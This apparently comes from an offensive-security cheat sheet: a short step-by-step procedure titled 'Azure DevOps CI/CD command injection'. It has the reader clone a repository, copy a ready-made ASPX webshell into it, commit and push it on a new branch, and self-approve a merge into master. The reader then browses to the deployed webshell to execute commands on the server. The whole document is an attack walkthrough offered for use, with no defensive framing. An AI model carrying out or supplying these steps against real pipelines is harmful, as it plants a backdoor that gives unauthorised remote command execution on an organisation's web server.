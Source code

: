 ## Azure DevOps CI/CD command injection

### Requirements: Authenticated access to azure devops tenant, and privileges to write into the CI/CD pipeline.

### Steps:

#### 1) Go to: The project the user has access in -> Pipelines -> Builds -> View

#### 2) git clone http://USER:PASSWORD@DOMAIN.COM/path/to/repository (Clone the repository we have access to)

#### 3) git checkout -b shell (Create a new branch in the repository directory)

#### 4) cp /usr/share/webshells/aspx/cmdasp.aspx . (Copy a webshell into our current directory)

#### 5) git add .

#### 6) git commit -m 'pwn3d!' (Upload the file to the webserver)

#### 7) git push -u origin shell (Push the commit to the Azure DevOps repository)

#### 8) Create a pull request in order to merge this branch into the master branch

#### 9) Set a title, a work item, and then create

#### 10) Approve -> Complete

#### 11) Browse to http://DOMAIN.COM/cmdasp.aspx to execute commands!
